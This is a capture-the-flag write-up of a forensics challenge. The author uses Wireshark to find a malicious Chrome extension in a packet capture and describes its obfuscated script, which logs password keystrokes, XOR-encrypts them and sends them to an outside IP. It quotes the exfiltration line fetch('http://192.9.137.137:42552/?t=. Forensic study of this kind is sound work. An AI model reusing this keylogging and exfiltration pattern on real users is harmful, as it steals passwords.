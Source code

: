 # X-tension 

| Category   | Difficulty |
| -----------|:----------:|
| Forensics  | Easy       |

## Challenge Description
Trying to get good at something while watching youtube isn't the greatest idea...

## Attachment(s)
[chal.pcapng](https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/blob/main/Forensics/x-tension/dist/chal.pcapng)

***

## Walkthrough
Given that we have a PCAP (packet capture) file, I used [Wireshark](https://www.wireshark.org/) to start analyzing the captured network traffic.

When analyzing PCAP files using Wireshark, it is helpful to look at the **Statistics** menu, which provides high-level statistics of the network traffic (protocols, host addresses, etc.) Documentation on Wireshark statistics can be found [here](https://www.wireshark.org/docs/wsug_html_chunked/ChStatistics.html).

I started looking at the HTTP web requests, found under **Statistics > HTTP > Requests**. This shows a list of all HTTP requests by destination address along with what was requested. 

![HTTP requests](../screenshots/xtension_http_requests)

We have two interesting findings:
* FunnyCatPicsExtension.crx (Google Chrome extension)
* Seemingly encrypted requests to a suspicous IP

<br> **Examining the CRX file:** <br>
 I exported the the CRX file from the PCAP (**File > Export Objects > HTTP** then select the file you want to Save) but the file type couldn't be directly opened in Kali Linux. I used [CRX Extractor](https://crxextractor.com/) to convert the CRX file to a ZIP to dig into the contents.

![CRX to ZIP](../screenshots/xtension_funnycatzip)

 The **contents.js** file is heavily objuscated code with this interesting snippet: `fetch('http://192.9.137.137:42552/?t=` which relates to the other HTTP requests found before.

Admittedly I copy/pasted this code into Google Gemini to understand what it does, and had the following takeaways:
* This file _listens to keystrokes if the event's target element is an input field with the type attribute set to 'password'_
* The captured keystroke is _encrypted using a simple XOR cipher, then URL-encoded before being sent to the remote IP via the query paramter t_

<br> **Pivoting back to Wireshark:** <br>
Knowing that we have passwords being exfilttrated via web requests, I went back to Wireshark to find the relevant packets. Using the display filter **http.request.method=="GET"** lists the GET requests (or keystrokes) in order.

![GET requests](../screenshots/xtension_GETrequests)

<br> **Decrypting the data:** <br>
Now we have the exfiltrated keystrokes in order: 5e 54 43 51 4c 52 4f 43 52 59 44 5e 58 59 44 68 5a 5e 50 5f 43 68 5d 42 44 43 68 44 42 54 5c 4a

I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the keystrokes and got the flag using the recipe **From Hex > XOR Brute Force** which resulted in the flag. 

Challenge solved! :sunglasses:
